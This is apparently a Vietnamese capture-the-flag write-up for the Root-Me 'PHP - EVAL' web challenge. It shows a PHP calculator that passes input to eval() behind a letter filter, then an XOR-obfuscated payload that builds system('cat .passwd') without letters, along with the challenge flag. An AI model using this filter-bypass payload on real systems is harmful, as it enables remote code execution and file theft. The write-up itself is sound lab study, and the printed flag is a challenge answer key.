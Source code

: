 
# PHP - EVAL

## Mô tả
Link: 
>https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

Category: Web, 40 points

Giao diện chính

![image](https://user-images.githubusercontent.com/72856776/115710947-258b2100-a39d-11eb-98a3-d4ea0a9adb1f.png)
## Hint
`Note : the flag is in .passwd file.`
## Source Code
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
## Phương pháp
Sau khi đọc Hint mình nghĩ flag sẽ nằm trong file .passwd vì vậy ta cần phải "cat" được nó, bằng cách sử dụng hàm system. Nhưng nhìn vào source ta sẽ thấy, cần phải bypass được hàm preg_match để thực hiên được hàm system thông qua hàm eval. Để thực hiện được điều đó ta cần viết được payload có thể bypass các filter trên `[a-zA-Z]`.

Sau khi tham khảo một số nguồn thì mình tìm được 1 link viết khá đầy đủ về ý tưởng bypass filter này
>https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Trong này sẽ nêu ra 2 phương pháp. Nhưng sau khi đọc và được hướng dẫn thì mình quyết định sử dụng phương pháp sử dụng hàm XOR trong PHP. Về cơ bản thì hàm này sẽ XOR 2 kí tự với nhau để trả về 1 kí tự khác. Vì vậy ta có thể sử dụng chữ số hoặc kí tự đặc biệt để XOR ra những từ ta cần dùng trong viết code (cũng vì thế mà code sẽ nhìn khá cục súc).

Đây là code mình sử dụng để bypass chall này
```php
<?php
$_= ("3934%@"^"@@@@@-");      //$_= system;
$__= ("@@4"^"#!@");           //$__= cat;
$___= (".!337$"^"^@@@@@");    //$___= passwd;
$____= ("$__ .$___");         //$____= cat .passwd;
$_($____);                    //system(cat .passwd);
?>
```
Sau khi submit, server sẽ trả về cho ta kết quả

![image](https://user-images.githubusercontent.com/72856776/115714080-f080cd80-a3a0-11eb-88e7-edc35123cae6.png)

Mình cũng không rõ cái system nó ở đâu ra nên đã mặc kệ :v 
## Flag
>M!xIng_PHP_w1th_3v4l_L0L
